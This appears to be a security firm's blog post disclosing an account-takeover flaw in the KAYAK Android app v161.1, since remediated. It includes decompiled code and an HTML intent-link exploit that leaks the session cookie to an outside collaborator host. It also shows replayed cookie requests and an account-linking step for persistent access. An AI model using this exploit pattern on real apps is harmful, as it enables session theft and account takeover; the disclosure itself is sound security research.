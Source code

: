 ```yaml
---
slug: account-takeover-kayak/
title: Account Takeover in KAYAK
date: 2022-11-23
subtitle: So it's the app itself that delivers the cookie to me?
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1669164815/blog/account-takeover-kayak/cover_account_takeover_kayak.webp
alt: Photo by Nahel Abdul Hadi on Unsplash
description: In this blog post, I present in detail a zero-day vulnerability I discovered in KAYAK v161.1, along with the steps to follow to replicate the exploit.
keywords: Kayak, Mobile Application, Android, Session Cookie, Vulnerability, Exploit, Improper Access Control, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/flha0KwRrRc
---
```


While researching zero-day vulnerabilities in mobile applications,
I found it's possible to steal a user's session cookie
through a malicious deeplink
in KAYAK v161.1.
Below,
I will explain this vulnerability in detail,
where it is located in the code
and what steps must be taken to replicate the exploit.

## Where is this vulnerability?

I found the following exported activity
in the AndroidManifest.xml file:

```xml
<activity android:name="com.kayak.android.web.ExternalAuthLoginActivity" android:exported="true" android:launchMode="singleTask">
    <intent-filter>
        <data android:scheme="kayak"/>
        <data android:host="externalAuthentication"/>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

This means that
any app installed on a mobile device
with that vulnerable version of KAYAK
can interact with this activity.
In addition,
this activity can be called from a deeplink
and accepts implicit intents.

## ExternalAuthLoginActivity

After noticing that,
I immediately went to the exported activity
to see what it did and how it did it.
While analyzing and reading the source code,
I came across two very striking functions:

```java
 private final String getRedirectUrl() {
        String stringExtra = getIntent().getStringExtra(EXTRA_REDIRECT_URL);
        return stringExtra == null ? "" : stringExtra;
 }

 private final void launchCustomTabs() {
        m.d b10 = new d.a(this.helper.getSession()).g(true).b();
        p.d(b10, "Builder(helper.session)\n…rue)\n            .build()");
        Uri.Builder buildUpon = Uri.parse(getRedirectUrl()).buildUpon();
        buildUpon.appendQueryParameter(SESSION_QUERY_PARAM, l.getInstance().getSessionId());
        i.openCustomTab(this, b10, buildUpon.build(), null);
 }
```

Since the activity is exported,
a malicious web page via a deeplink,
or a malicious mobile app via an intent,
could set up a malicious RedirectUrl
using the getRedirectUrl function.
Okay,
but for this to have an impact,
we need to see what we can do about this behavior.

That's where the launchCustomTabs method comes in,
which,
as we see,
concatenates a GET parameter to the URL.
That GET parameter is the mobile app user's session cookie:

```java
public final String getSessionId() {
        String cookieValueInternal;
        synchronized (this) {
            cookieValueInternal = getCookieValueInternal(SESSION_COOKIE_NAME);
        }
        return cookieValueInternal;
}
```

```java
public static final String SESSION_COOKIE_NAME = "p1.med.sid";
```

With this in mind,
I didn't hesitate to log into the web application
and delete all cookies
to end up with a request like the following:

```txt
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=[Cookie Here];
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

I uploaded the exploit to a malicious server:

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end">Exploit</a>;
    </body>
</html>
```

Then,
I opened it from the mobile app.
Checking the malicious server logs,
I saw how my account session cookie was leaked.
So I copied it and put it in the request I showed above:

```html
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=65-R-4rhBEjEeCTHTB5bkcdEoO-RUM4RJuW5YvCJ3nfrsvdH0UbkjGBywHzVgsV0u8_Ys-4ay0zqH2q0Jt8H8EXM2yN-QEmydDQIbJ1eAmYZzh6nablokLtpHYCBUNGs7aoae;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>

## Account takeover POC

Below is a video demonstration of the exploitation
of this vulnerability:

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/vmTDH8QpMnA"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

## Problems and more problems - Account linking

I have found that
once I steal the victim's cookie
and log into the web application with it,
I can see the victim's data without any problem.
However,
I cannot edit them for some strange reason.
Therefore,
investigating the web application,
I realized that an attacker could gain full access to the account
—and then view, edit, delete information, etc.—
by simply linking a Google account
(or any other available provider).

In this case,
I linked a Google account corresponding to the attacker
to the victim's account.
The goal was that
the attacker would then only have to log into the application
from his Google account
to gain access to the victim's account.

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/AgJRDqsawHU"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

That's it.
An unauthenticated,
remote attacker can steal the account of any victim
logged into the KAYAK mobile app for Android
with a one-click attack.

## Timeline

### August 12, 2022

- Vulnerability reported:
  Improper Access Control
  (CVSS: 9.3; Critical)

- Vulnerability triaged

### August 13, 2022

- Vulnerability remediated

- KAYAK v161.2 (10048) available on Play Store
